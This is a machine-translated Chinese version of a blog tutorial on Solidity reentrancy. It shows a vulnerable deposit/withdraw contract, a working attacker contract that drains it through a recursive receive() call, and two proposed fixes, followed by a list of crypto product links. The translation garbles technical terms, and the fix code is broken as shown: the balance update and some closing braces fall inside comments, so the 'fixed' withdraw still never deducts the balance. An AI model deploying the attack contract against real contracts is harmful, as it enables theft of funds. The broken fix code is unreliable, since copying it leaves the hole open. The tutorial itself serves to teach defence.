 # 可重入性利用

> 原文：<https://medium.com/coinmonks/reentrancy-exploit-ac5417086750?source=collection_archive---------0----------------------->

[https://www . ama . fans/graphical dot/post/0 x8a E6 fdb 9 c 256 acdce 326 b 324 ff 1ee 400 f 46d 79 e 78 a 03 a 11 BC 74 e 144 c 164124 b 5](https://www.ama.fans/graphicaldot/post/0x8ae6fdb9c256acdce326b324ff1ee400f46d79e78a03a11bc74e144c164124b5)

![](img/0f62cd7b87b0d5061b7e43f704527879.png)

Solidity 支持三种在钱包和智能合约之间转移以太的方式。这些支持的传输以太网的方法是 send()、transfer()和 call.value()。这些方法的不同之处在于它们传递给传输的用于执行其他方法的气体量(如果接收方是智能合同)，以及它们处理异常的方式。发送()和调用()。如果失败，value()只会返回 false，但是 transfer()会抛出一个异常，该异常还会将状态恢复到函数调用之前的状态。这些方法总结如下

![](img/f0328bff3a076c1dd8081e94e00c6b02.png)

因此，您的 send()函数应该始终位于 require 语句中，以通知您执行失败。

在 transfer()的情况下，您在尝试执行时就知道您的事务不成功。

最后，在 call()的情况下，如果出现错误，它仍然会返回 false ，这就是为什么要记住`require()`的用法。与前两个功能的主要区别是**有机会通过**设置气体限制**。调用{value: _amount，gas: gasValue}("")** 。这是必要的，以防合同接收以太网的可支付功能执行复杂的逻辑，这需要大量的气体。

一个契约最多可以有一个使用`receive() external payable { ... }`声明的`receive`函数(没有`function`关键字)。这个函数不能有参数，不能返回任何东西，必须有`external`可见性和`payable`状态可变性。它在调用带有空 calldata 的协定时执行。这是在普通以太网传输上执行的功能(例如通过`.send()`或`.transfer()`)。如果不存在这样的函数，但是存在可支付的[回退函数](https://solidity.readthedocs.io/en/v0.6.10/contracts.html#fallback-function)，则回退函数将在普通以太网传输中被调用。如果 receive Ether 和 payable fallback 函数都不存在，则协定无法通过常规事务接收 Ether 并引发异常。

在最坏的情况下，回退功能只能依靠 2300 气体可用(例如当使用`send`或`transfer`时)，几乎没有空间来执行除基本测井之外的其他操作。以下操作将消耗比 2300 汽油津贴更多的汽油:

*   写入存储
*   创建合同
*   调用消耗大量气体的外部函数
*   发送以太网

但近年来，使用 call()函数传输以太而不是传输和发送已经成为一种规范，原因如下:任何使用`transfer()`或`send()`的智能合同都是通过转发固定量的天然气来硬依赖天然气成本:2300。

更多阅读这里:[https://diligence . consensys . net/blog/2019/09/stop-using-soliditys-transfer-now/](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/)

这整个背景对于理解重入攻击是必要的。让我们考虑下面的合同:

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;contract EtherRentrancy {

    mapping (address => uint256) public balances;
    address public owner;

    constructor() public {
        owner = msg.sender;
    }

    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient funds");

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");

        balances[msg.sender] -= _amount;
    }

    function getBalance() public view returns(uint){
        return address(this).balance;

    }

}
```

在这个契约中，任何有效的以太坊地址都可以通过存款功能存入以太，并可以通过取款功能提取他们的以太。

这是我们将用来从上述合同中抽干所有资金的合同。

```
contract HelloBreaksLoose{
    EtherRentrancy etherrentrancy;

    constructor(address _etherrentrancy) public {
        etherrentrancy = EtherRentrancy(_etherrentrancy);
    } receive() external payable {
        if (etherrentrancy.getBalance() >= 1 ether){
            etherrentrancy.withdraw(1 ether);

        }
    } function attack() external payable{
        require(msg.value >= 1 ether);
        etherrentrancy.deposit{value: msg.value}();
        etherrentrancy.withdraw(1 ether);

    }
    function getBalance() public view returns(uint){
        return address(this).balance;

    }}
```

应该使用以太网协议的地址部署该协议。

下面是调用这个契约的函数 **attack()** 时的执行步骤:Step1: attack()，

第二步:在以太网租赁合同上用 1 个以太网存款()；

第三步:撤销()以太网租约函数；

step 4:retract()函数反过来会调用 HelloBreaksLoose 的 receive 函数；

步骤 5: receive 函数将再次调用 withdraw()函数；

最后两步——步骤 3 和步骤 4——将循环运行，直到 EtherRentrancy 的余额小于 1 ether。

有两种方法可以阻止这种攻击:

1.  更改撤销函数:在从契约中进行任何外部调用之前，更新状态变量。

```
function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient f unds");
       //Now, update to state variable balances is happening before        // the call, the attacker wouldnt be able to withdraw
       // funds more than he/she deposited. Subsequent calls into 
       //this function will fail as the depositor will not have 
        // funds. balances[msg.sender] -= _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");

    }
```

2.使用修饰符 blockRentrancy:其思想是在契约的任何功能被执行时锁定契约，因此一次只能执行契约中的一个功能。

```
bool internal locked; //only contract can change this variablemodifier blockRentrancy { require(!locked, "Contract is locked");
    locked = true;
     _;
     locked = false; //set locked = false after completion of      
                     // function execution}//Use this modifier in contract functions
function withdraw(uint _amount) public blockRentrancy{ .....}
```

## 另外，阅读

*   最好的[密码交易机器人](/coinmonks/crypto-trading-bot-c2ffce8acb2a)
*   [密码本交易平台](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c)
*   最好的[加密税务软件](/coinmonks/best-crypto-tax-tool-for-my-money-72d4b430816b)
*   [最佳加密交易平台](/coinmonks/the-best-crypto-trading-platforms-in-2020-the-definitive-guide-updated-c72f8b874555)
*   最佳[加密贷款平台](/coinmonks/top-5-crypto-lending-platforms-in-2020-that-you-need-to-know-a1b675cec3fa)
*   [最佳区块链分析工具](https://bitquery.io/blog/best-blockchain-analysis-tools-and-software)
*   [加密套利](/coinmonks/crypto-arbitrage-guide-how-to-make-money-as-a-beginner-62bfe5c868f6)指南:新手如何赚钱
*   最佳[加密制图工具](/coinmonks/what-are-the-best-charting-platforms-for-cryptocurrency-trading-85aade584d80)
*   [莱杰 vs 特雷佐](/coinmonks/ledger-vs-trezor-best-hardware-wallet-to-secure-cryptocurrency-22c7a3fd391e)
*   了解比特币最好的[书籍有哪些？](/coinmonks/what-are-the-best-books-to-learn-bitcoin-409aeb9aff4b)
*   [3 商业评论](/coinmonks/3commas-review-an-excellent-crypto-trading-bot-2020-1313a58bec92)
*   [AAX 交易所评论](/coinmonks/aax-exchange-review-2021-67c5ea09330c) |推荐代码、交易费用、利弊
*   [Deribit 审查](/coinmonks/deribit-review-options-fees-apis-and-testnet-2ca16c4bbdb2) |选项、费用、API 和 Testnet
*   [FTX 密码交易所评论](/coinmonks/ftx-crypto-exchange-review-53664ac1198f)
*   [零审核](/coinmonks/ngrave-zero-review-c465cf8307fc)
*   [Bybit 交换审查](/coinmonks/bybit-exchange-review-dbd570019b71)
*   [3Commas vs Cryptohopper](/coinmonks/cryptohopper-vs-3commas-vs-shrimpy-a2c16095b8fe)
*   最好的比特币[硬件钱包](/coinmonks/the-best-cryptocurrency-hardware-wallets-of-2020-e28b1c124069?source=friends_link&sk=324dd9ff8556ab578d71e7ad7658ad7c)
*   最佳 [monero 钱包](https://blog.coincodecap.com/best-monero-wallets)
*   [莱杰 nano s vs x](https://blog.coincodecap.com/ledger-nano-s-vs-x)
*   [bits gap vs 3 commas vs quad ency](https://blog.coincodecap.com/bitsgap-3commas-quadency)
*   [莱杰 Nano S vs 特雷佐 one vs 特雷佐 T vs 莱杰 Nano X](https://blog.coincodecap.com/ledger-nano-s-vs-trezor-one-ledger-nano-x-trezor-t)
*   [block fi vs Celsius](/coinmonks/blockfi-vs-celsius-vs-hodlnaut-8a1cc8c26630)vs Hodlnaut
*   Bitsgap 评论——一个轻松赚钱的加密交易机器人
*   [Quadency Review](/coinmonks/quadency-review-a-crypto-trading-automation-platform-3068eaa374e1) -为专业人士打造的加密交易机器人
*   [PrimeXBT 评论](/coinmonks/primexbt-review-88e0815be858) |杠杆交易、费用和交易
*   [埃利帕尔泰坦评论](/coinmonks/ellipal-titan-review-85e9071dd029)
*   [SecuX Stone 评论](https://blog.coincodecap.com/secux-stone-hardware-wallet-review)
*   [BlockFi 评论](/coinmonks/blockfi-review-53096053c097) |从您的密码中赚取高达 8.6%的利息